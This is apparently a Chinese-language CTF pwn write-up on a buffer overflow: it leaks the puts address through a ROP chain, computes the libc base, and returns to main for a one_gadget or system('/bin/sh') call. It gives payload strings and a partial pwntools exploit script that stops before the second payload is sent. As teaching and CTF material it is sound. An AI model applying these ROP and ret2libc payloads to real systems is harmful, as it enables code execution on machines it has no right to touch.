 由于只有一次溢出，程序也没有后门，所以我们需要先leak出一个libc的地址，然后漏洞点重复利用，回到main，然后ret2libc

#### leak

先用`ROPgadget`寻找`gadget：pop rdi ret`

然后第一次的payload：`payload='a'*0x20+'b'*8+p64(prdi_ret)+p64(puts_GOT)+p64(puts_plt)+p64(main)`

利用`puts_plt`把`puts`函数的GOT表项打出来，然后回到main

第二次根据puts函数的地址和固定偏移计算出`libc`的加载地址，至于这些偏移可以在脚本里面写`symbols['puts']`也可以直接用`gdb`调试时 ：p puts然后`vmmap`查看基址，相减得到偏移

#### ret

得到基址之后使用one_gadget，满足限制条件即可，或者利用libc里面的`/bin/sh`地址，调用`system`也行（个人推荐用one_gadget，方便很多）

第二次的payload：`payload='a'*0x20+'b'*8+p64(libc_base+one_gadget_offset)`

#### Exploit

```python
# -*- coding: utf-8 -*-
from __future__ import print_function
from pwn import *

binary = './pwn1'      #binary's name here
context.binary = binary         #context here
context.log_level='debug'
pty = process.PTY
p = process(binary, aslr = 1, stdin=pty, stdout=pty)    #process option here
'''
Host =
Port =
p = remote(Host,Port)
'''
elf = ELF(binary)
libc = elf.libc

my_u64 = lambda x: u64(x.ljust(8, '\0'))
my_u32 = lambda x: u32(x.ljust(4, '\0'))
ub_offset = 0x3c4b30
codebase = 0x555555554000
#log.info("\033[1;36m" + hex(bin_addr) + "\033[0m")

# todo here
p.recvuntil('your name\n')
p.send('Coldshield')
p.recvuntil('the key?\n')

prdi_ret=0x00000000004012ab
puts_GOT=0x404018
puts_plt=0x401030
main=0x401162
payload='a'*0x20+'b'*8+p64(prdi_ret)+p64(puts_GOT)+p64(puts_plt)+p64(main)

p.send(payload)

puts_offset=0x6f690
one_gadget_offset=0x45216
p.recvuntil('fail!\n')
libc_base=my_u64(p.recv(6))-puts_offset
log.info("\033[1;36m" + 'libc_base:'+hex(libc_base) + "\033[0m")

p.recvuntil('your name\n')
p.send('Coldshield')
p.recvuntil('the key?\n')
```